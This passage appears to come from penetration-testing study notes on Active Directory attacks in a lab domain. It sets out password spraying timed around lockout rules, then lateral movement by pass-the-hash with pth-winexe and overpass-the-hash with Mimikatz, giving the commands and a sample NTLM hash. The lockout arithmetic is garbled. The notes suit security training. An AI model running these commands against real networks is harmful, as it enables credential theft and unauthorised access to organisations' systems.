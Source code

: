 Note that after 5 failed logins we will be locked out, and we have 30 minutes between failed logins.

Therefore, we can attempt 4\*864/30= 192 logins within a 24 hour period.&#x20;

We can compile a short list of common passwords and use it agianst a massive amount of users, which could reveal weak links in the organization.

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```

This is brutally narrow, though, so we can use Spray-Passwords to check all the users.&#x20;

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

## Active Directory Lateral movement

### Pass the Hash

Passing the Hash allows an attacker to authenticate with an NTLM hash. This does require local administrative rights on the target machine.

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Easy as that. Note that the value after Adminstrator% is the hash retrieved by mimikatz. The first value, aad3b435b51404eeaad3b435b51404ee, is a placeholder hash - we should only be concerned with the part after the colon.

### Overpass the Hash

Overpass the hash lets us "over" abuse a NTLM user hash to gain access to a full Kerberos Ticket Granting Ticket, which lets us access other machines or services as that user.

An overpass the hash technique's main goal is to convert an NTLM hash into a kerberos ticket and avoid authentication. One way is using Mimikatz.

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
```
